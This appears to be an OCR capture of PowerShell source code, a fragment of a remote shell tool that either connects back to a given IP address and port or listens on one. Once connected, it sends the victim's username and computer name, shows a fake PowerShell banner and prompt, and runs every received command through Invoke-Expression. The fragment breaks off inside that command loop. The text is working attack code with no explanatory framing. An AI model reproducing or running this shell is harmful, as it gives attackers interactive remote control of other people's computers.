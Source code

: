 ```powershell
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
```